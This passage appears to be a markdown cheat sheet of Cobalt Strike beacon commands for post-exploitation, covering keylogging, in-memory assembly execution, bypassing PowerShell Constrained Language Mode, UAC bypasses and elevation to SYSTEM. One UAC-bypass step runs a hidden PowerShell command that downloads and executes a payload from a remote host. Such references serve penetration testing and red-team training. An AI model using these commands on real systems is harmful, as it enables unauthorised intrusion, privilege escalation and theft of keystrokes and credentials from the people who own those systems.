 #### Keylogger
```
keylogger
```

#### Execute assembly in memory
```
execute-assembly <PATH TO EXE> -group=system
```

#### Load PowerShell script
```
powershell-import <FILE>
```

#### Execute cmd command
```
run <COMMAND>
```

#### Execute powershell command
```
powershell <COMMAND>
```

#### Execute powershell command through powerpick
- Bypasses Constrained Language Mode
```
powerpick $ExecutionContext.SessionState.LanguageMode
```

#### Create service binary
- Used for privilege escalation with services
- Attacks --> Packages --> Windows Executable (S) and selecting the Service Binary output type.
- TIP:  I recommend the use of TCP beacons bound to localhost only with privilege escalations

#### Connect to beacon
```
connect <IP> <PORT>
```

#### UAC bypass method 1
```
elevate uac-token-duplication <LISTENER>
```

#### UAC bypass method 2 runasadmin
```
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
connect localhost 4444
```

- Not all UAC bypasses are created equal, can elevate to system with:

#### Elevate to system
```
elevate svc-exe
```
